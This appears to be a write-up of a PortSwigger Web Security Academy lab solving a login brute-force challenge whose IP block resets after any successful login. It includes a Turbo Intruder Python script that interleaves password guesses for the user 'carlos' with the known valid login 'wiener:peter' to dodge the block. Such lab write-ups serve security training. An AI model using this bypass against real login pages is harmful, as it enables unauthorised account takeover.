

# Lab: Broken brute-force protection, IP block

Lab-Link: <https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block>
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- Login functionality uses flawed brute-force protection
- Successful logins reset the brute-force protection from IP, regardless of which accoun
- Valid credentials given `wiener:peter`
- Goals:
  - Login as user `carlos`

## Steps

One way to solve the lab would be to inject the password of `wiener` on every other line, and than use the Pitchfork attack on the Burp Intruder.

In the hint section of the Lab, the tool `Turbo Intruder` was mentioned, so I thought his is a good time to learn about it.

From the look of it, it is extremely configurable. After a quick look in the examples on [github](https://github.com/PortSwigger/turbo-intruder/tree/master/resources/examples), the basic usage with python scripts looks not too difficult.

I capture a login attempt and send it to `Turbo Intruder` (in the context menu: `Extensions->Turbo Intruder->Send to turbo intruder`).

I want both username and password fields to be configurable. For every entry in the `candidate_passwords.txt` file I want to queue an additional request with the known good credentials `wiener:peter`. And as I'm unsure how concurrency and the brute force protection interact, I opt for a purely serial approach:



Script version:

```python
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

    for word in open('/home/frank/src/ctf-writeups/portswigger-websecurity-academy/authentication/candidate_passwords.txt'):
        engine.queue(target.req, ['carlos', word.rstrip()])
        engine.queue(target.req, ['wiener', 'peter'])


def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

And sure enoguh, when I order the result list by status, the single `carlos` line is easily visible in the myriad of `wiener/peter` lines:


Enumerated password: **sunshine**

Now simply login to solve the lab.


